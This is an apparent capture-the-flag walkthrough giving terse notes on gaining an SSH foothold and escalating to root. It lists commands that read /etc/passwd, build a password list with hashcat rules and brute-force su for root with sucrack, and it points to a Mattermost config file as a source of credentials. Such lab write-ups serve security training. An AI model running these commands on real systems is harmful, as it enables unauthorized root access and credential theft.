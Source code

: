 ### Foothold
CTF heavily. Try everything on a happy path to get the credential. Login in through SSH.

### Priv
```
cat /etc/passwd | grep -v 'false\|nologin'
```

##### Generate dictionary. it may take few seconds
```
hashcat --stdout pw -r /usr/share/hashcat/rules/best64.rule > pwlist
```

##### Check ssh login
```
less /etc/ssh/ssh_config
```
So no ssh brute force

##### Brute force su with sucrack
```
./sucrack -a -w 20 -s 10 -u root -rl AFLafld pwlist # Default sample would work
```

##### Alternatively mattermost config
`/opt/mattermost/config`